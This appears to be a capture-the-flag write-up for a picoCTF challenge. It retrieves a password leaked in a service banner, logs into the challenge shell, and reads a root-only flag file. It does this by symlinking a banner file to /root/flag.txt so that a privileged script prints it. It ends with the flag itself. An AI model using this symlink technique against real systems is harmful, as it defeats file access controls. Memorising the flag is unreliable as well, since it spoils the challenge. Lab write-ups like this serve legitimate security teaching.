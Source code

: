 # Solution:

Running on the leaky port `nc tethys.picoctf.net 50801` gives the output `SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234`. Then, we return to the main system. Running `nc tethys.picoctf.net 50482` gives the following exchange:


```
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ 
```
thereby achieving access to the server. Now, there isn't anything useful in the `~` folder, but navigating to the `/root` folder gives us `script.py`, and a `flag.txt`. Unfortunately, both of these files are locked without read/write on `flag.txt`, and without `write` for `script.py`. 
```
player@challenge:/root$ chmod +rwx flag.txt
chmod +rwx flag.txt
chmod: changing permissions of 'flag.txt': Operation not permitted
```

Instead, to finish, we rely on Hint 1, "Do you know about symlinks?". Observe that in `script.py`, the function reads in `/home/player/banner`
```
if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")
```

By first deleting a banner, and then creating a symbolic link with the command `ln -s /root/flag.txt /home/player/banner`, when we exit and reboot again, the server reads in and displays the contents of `flag.txt`, namely `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}`. 